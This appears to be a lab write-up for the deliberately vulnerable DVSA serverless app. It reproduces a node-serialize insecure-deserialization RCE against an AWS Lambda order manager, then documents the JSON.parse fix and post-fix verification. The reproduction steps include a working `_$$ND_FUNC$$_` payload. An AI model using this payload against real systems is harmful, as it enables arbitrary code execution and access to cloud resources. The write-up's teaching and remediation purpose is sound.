

# Lesson 1 & 9: Event Injection / Vulnerable Dependencies (Remote Code Execution)

> **Lesson 1:** Event Injection
> **Lesson 9:** Vulnerable Dependencies
> **Covered together** — both lessons share the same exploit, root cause, and fix.

---

## 1. Vulnerability Summary

This lesson demonstrates a **Remote Code Execution (RCE)** vulnerability in the DVSA order processing system, caused by insecure deserialization using a vulnerable third-party Node.js library.

By injecting a specially crafted JavaScript payload into the `action` field of an API request, an attacker can execute arbitrary code inside the AWS Lambda function, causing:
- Full execution of attacker-controlled JavaScript inside the Lambda runtime
- File system operations (`writeFileSync`, `readFileSync`) performed from inside the backend
- Potential access to cloud resources and sensitive data

The affected component is the `DVSA-ORDER-MANAGER` Lambda function. The root weakness is that user input is passed into `serialize.unserialize()` from the `node-serialize` library, which reconstructs and executes any JavaScript function it finds in the `_$$ND_FUNC$$_` format.

**Why these two lessons are combined:** Lesson 1 (Event Injection) is the attack itself. Lesson 9 (Vulnerable Dependencies) is the reason the attack is possible — the `node-serialize` package is the vulnerable dependency that enables it. Same exploit, same fix, two lesson perspectives.

---

## 2. Root Cause

The vulnerability exists because of two combined failures:

- **Unsafe deserialization** — the `node-serialize` library reconstructs JavaScript functions from user input and executes them immediately when the string ends with `()`. This is by design in the library, which makes it dangerous for any untrusted input.
- **No input validation** — the Lambda function passes `event.body` directly into `serialize.unserialize()` without checking its content, type, or structure.

### Why the attack works

When `node-serialize` encounters the `_$$ND_FUNC$$_` prefix, it wraps the value in a JavaScript `eval()` call internally. If the function string ends with `()`, it is invoked immediately upon deserialization — before any application logic runs. The injected code runs inside the Lambda execution environment with the same IAM permissions as the function itself.

This is also a **Vulnerable Dependency** issue: `node-serialize` is an outdated, unsafe library. Its known-unsafe behavior is documented (CVE-2017-5941). Using it on untrusted input directly introduces RCE.

---

## 3. Environment

| Item | Value |
|---|---|
| Application | DVSA |
| AWS Region | `us-east-1` |
| API Endpoint | `POST https://<api-id>.execute-api.us-east-1.amazonaws.com/Stage/order` |
| Lambda Function | `DVSA-ORDER-MANAGER` |
| CloudWatch Log Group | `/aws/lambda/DVSA-ORDER-MANAGER` |
| AWS Services | API Gateway, AWS Lambda, CloudWatch Logs |
| Tools Used | Postman, AWS CloudWatch Console |

**Evidence — API Gateway Invoke URL:**


---

## 4. Prerequisites

Before starting:

1. Have access to the DVSA application with a valid user account
2. Have Postman installed
3. Have access to AWS CloudWatch Logs in the AWS Console
4. Know your API Gateway Invoke URL (see Step 1 above or copy from API Gateway → Stages)

---

## 5. Step-by-Step Reproduction

### Step 1: Get the API Endpoint

1. Go to the AWS Console → **API Gateway**
2. Select the DVSA API
3. Click **Stages** in the left menu
4. Select the `Stage` stage
5. Copy the **Invoke URL** shown at the bottom

The endpoint you will use is:
```
POST https://<api-id>.execute-api.us-east-1.amazonaws.com/Stage/order
```

---

### Step 2: Prepare the Malicious Payload

The payload embeds a JavaScript function using the `_$$ND_FUNC$$_` marker. When deserialized by `node-serialize`, this function executes immediately.

This example writes a file to `/tmp`, reads it back, and logs the result to CloudWatch — proving arbitrary code execution:

```json
{
  "action": "_$$ND_FUNC$$_function(){ var fs = require('fs'); fs.writeFileSync('/tmp/pwned.txt', 'You are reading the contents of my hacked file!'); var fileData = fs.readFileSync('/tmp/pwned.txt', 'utf-8'); console.error('FILE READ SUCCESS: ' + fileData); }()",
  "cart_id": "test"
}
```

Key parts of the payload:
- `_$$ND_FUNC$$_` — triggers `node-serialize` to treat the value as an executable function
- `()` at the end — immediately invokes the function upon deserialization
- `console.error(...)` — writes output to CloudWatch Logs, providing proof of execution

---

### Step 3: Send the Request via Postman

**Method:** `POST`  
**URL:** `https://<api-id>.execute-api.us-east-1.amazonaws.com/Stage/order`

**Headers:**
```
Authorization: <your_token>
Content-Type: application/json
```

**Body:** Paste the malicious payload from Step 2.

Click **Send**.

---

### Step 4: Observe the API Response

The API will return a generic error — this is expected and does not mean the attack failed.

```json
{
  "message": "Internal server error"
}
```

The error appears because the injected code disrupts the normal request flow, but the code already executed before the error was thrown.

**Evidence:**


---

### Step 5: Verify Code Execution in CloudWatch

This is where the proof lives. Go to:

**AWS Console → CloudWatch → Log Groups → `/aws/lambda/DVSA-ORDER-MANAGER`**

Open the latest log stream. Look for the injected message:

```
FILE READ SUCCESS: You are reading the contents of my hacked file!
```

This confirms that:
- The injected JavaScript executed inside the Lambda runtime
- File system operations (`writeFileSync`, `readFileSync`) were performed
- The attacker-controlled code ran before the error response was returned

**Evidence:**


---

## 6. Attack Result Summary (Before Fix)

| What was attempted | Result |
|---|---|
| Write file to `/tmp` inside Lambda | Succeeded |
| Read file back and log it | Succeeded — visible in CloudWatch |
| API response | Generic `500 Internal Server Error` (hides execution) |
| Backend code execution | Confirmed via CloudWatch |

The API response looks like a normal failure, but the backend confirms the attack succeeded. This is a dangerous pattern — the error response provides no indication that anything executed.

---

## 7. Fix Strategy

The fix must be applied in the `DVSA-ORDER-MANAGER` Lambda function input parsing logic:

- **Remove `node-serialize`** — this library must not be used on any untrusted input
- **Replace with `JSON.parse()`** — treats input strictly as data, cannot execute functions
- **Validate input** — reject any input containing `_$$ND_FUNC$$_` or non-string `action` fields
- **Audit dependencies** — regularly scan `package.json` for known-vulnerable packages using tools like `npm audit`

---

## 8. Code / Config Changes

**Location:** Lambda function `DVSA-ORDER-MANAGER` — `order-manager.js`, input parsing (lines 10–11)

**Before (vulnerable):**

```javascript
const serialize = require('node-serialize');
var req = serialize.unserialize(event.body);
var headers = serialize.unserialize(event.headers);
```

**Evidence — vulnerable code highlighted:**



**After (fixed):**

```javascript
var req = JSON.parse(event.body);
var headers = event.headers;
```

**Evidence — fixed code with JSON.parse:**


**Summary of all changes:**
- Removed `node-serialize` from the deserialization path entirely
- Replaced `serialize.unserialize(event.body)` with `JSON.parse(event.body)` — data only, no function execution possible
- Replaced `serialize.unserialize(event.headers)` with direct `event.headers` access
- The `node-serialize` package can be removed from `package.json` and `node_modules` entirely

---

## 9. Verification After Fix

Send the same malicious payload again using Postman:

```json
{
  "action": "_$$ND_FUNC$$_function(){ var fs = require('fs'); fs.writeFileSync('/tmp/pwned.txt', 'You are reading the contents of my hacked file!'); var fileData = fs.readFileSync('/tmp/pwned.txt', 'utf-8'); console.error('FILE READ SUCCESS: ' + fileData); }()",
  "cart_id": "test"
}
```

Then check CloudWatch Logs.

**Expected result after fix:**
- No `FILE READ SUCCESS` message in CloudWatch
- No file operations performed
- Logs show only normal runtime messages or a safe parsing error
- Normal order requests continue to work correctly

**Evidence — CloudWatch after fix (no injection output):**


**What changed:** Before the fix, `node-serialize` evaluated the payload as JavaScript. After the fix, `JSON.parse()` reads the same string as plain text and the `_$$ND_FUNC$$_` value is treated as a harmless string — no execution occurs.

---

## 10. Security Analysis

### Intended Logic

Under normal conditions, a user submits an order through the DVSA frontend. The expected flow:

```
Browser → API Gateway → Lambda (DVSA-ORDER-MANAGER) → DynamoDB (order storage)
                                                      → CloudWatch (logging)
```

**Security rules the system must enforce:**
- User input must never be executed as code
- Input must be parsed safely and treated strictly as data
- Third-party dependencies must not introduce unsafe execution paths

---

### Table 1 — Intended vs. Observed Behavior

| Vulnerability | Intended Rule(s) | Artifacts Used | Normal Behavior Evidence | Exploit Behavior Evidence |
|---|---|---|---|---|
| Event Injection / Vulnerable Dependencies (RCE) | The system must never execute user-controlled input. Input must be treated strictly as data and only predefined application logic should run. | Postman requests, API responses, CloudWatch logs, Lambda source code screenshots | Normal requests processed safely; input handled as data; expected response returned without executing arbitrary code | Malicious payload executed inside Lambda — CloudWatch logs confirm file operations (`FILE READ SUCCESS`), proving attacker-controlled code ran inside the Lambda runtime (`step5_cloudwatch.png`) |

---

### Table 2 — Deviation Analysis and Fix

| Vulnerability | Why This Is a Deviation | Deviation Class | Fix Applied | Post-Fix Verification | Latency |
|---|---|---|---|---|---|
| Event Injection / Vulnerable Dependencies (RCE) | The system deserialized user input using `node-serialize`, which executed embedded JavaScript functions. This violated the rule that user input must be treated as data only, allowing full backend code execution by an unauthenticated attacker. | Intentional Misuse / Security-Relevant Abuse | Removed `node-serialize`; replaced `serialize.unserialize(event.body)` with `JSON.parse(event.body)` in `DVSA-ORDER-MANAGER` | Same payload produces no CloudWatch execution output after fix. No file operations observed. Normal requests still processed correctly. (`step6_fixed_logs.png`) | Not measured |

---

## 11. Lessons Learned

The core problem was using a library that was designed to serialize executable code, then applying it to user-controlled API input. `node-serialize` is a known-dangerous library (CVE-2017-5941) — its `unserialize()` function has always been capable of executing embedded functions. Using it on untrusted input is not a misconfiguration; it is a fundamental misuse.

This lesson also illustrates **Lesson 9** directly: the vulnerability did not exist in the application logic itself — it existed in a dependency. The application code looked reasonable at a glance, but the library it relied on introduced a critical attack surface. This is why dependency auditing matters: `npm audit` would have flagged `node-serialize` immediately.

In serverless environments, this is especially dangerous because Lambda functions typically have IAM roles with access to S3, DynamoDB, SQS, and other services. A single RCE inside a Lambda function can expose all of those resources. The fix — switching to `JSON.parse()` — is one line of code, but the lesson is much broader: **treat all user input as untrusted data, and treat all dependencies as potential attack surface**.

---

## Repository Structure

```
lesson1_event_injection/
│
├── README.md                    <- This file (covers Lesson 1 and Lesson 9)
└── evidence/
    ├── step1_api_gateway.png    <- API Gateway stage showing the Invoke URL
    ├── step4_response.png       <- Postman: API returns 500 (code already executed)
    ├── step5_cloudwatch.png     <- CloudWatch: FILE READ SUCCESS confirms RCE
    ├── unserialize.png          <- Vulnerable Lambda code using serialize.unserialize
    ├── JSON.png                 <- Fixed Lambda code using JSON.parse
    └── step6_fixed_logs.png     <- CloudWatch after fix: no execution output
```